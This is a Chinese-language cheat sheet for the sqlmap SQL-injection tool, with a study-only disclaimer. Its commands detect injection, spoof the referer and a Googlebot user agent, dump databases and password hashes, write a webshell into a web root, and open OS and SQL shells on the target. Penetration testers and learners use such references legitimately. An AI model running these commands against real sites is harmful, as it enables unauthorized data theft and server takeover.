 # sqlmap 笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

**官网**
- https://github.com/sqlmapproject/sqlmap

**文章**
- [Sqlmap使用教程【个人笔记精华整理】 | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作
**检测注入**
```bash
sqlmap -u URL   # 判断注入
sqlmap -u URL -p id # 指定参数注入
sqlmap -u URL --cookie="xxxxx"  # 带 cookie 注入
sqlmap -u URL --batch   # 不要请求用户输入，使用默认行为
sqlmap -r aaa.txt   # post型注入

sqlmap -u URL --os "Windows"    # 指定操作系统
sqlmap -u URL -dbms mysql -level 3  # 指定数据库类型为 mysql，级别为 3（共 5 级，级别越高，检测越全面）
sqlmap -u URL -dbms mysql -risk 3   # 指定执行测试的风险(1-3, 默认 1)
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3   # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080" # 代理注入测试
sqlmap -u URL --referer "http://www.google.com" # 模拟来源
sqlmap -u URL --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"  # 模拟谷歌蜘蛛
```

**获取信息**
```bash
sqlmap -u URL --current-db  # 获取当前数据库
sqlmap -u URL --dbs  # 枚举所有数据库
sqlmap -u URL -f    # 检查 DBMS 版本
sqlmap -u URL --is-dba  # 判断当前用户是否是 dba
sqlmap -u URL --users   # 列出数据库管理系统用户
sqlmap -u URL --privileges  # 枚举 DBMS 用户权限
sqlmap -u URL --passwords   # 获取当前数据库密码


sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns   # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all    # 列出所有数据库，所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password   # 在 dedecms 数据库中搜索字段 admin 或者 password。
```

**读取与写入文件**

首先找需要网站的物理路径，其次需要有可写或可读权限。

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注：mysql 不支持列目录，仅支持读取单个文件。sqlserver 可以列目录，不能读写文件，但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell   # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell    # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig # 在注入点直接执行命令
```

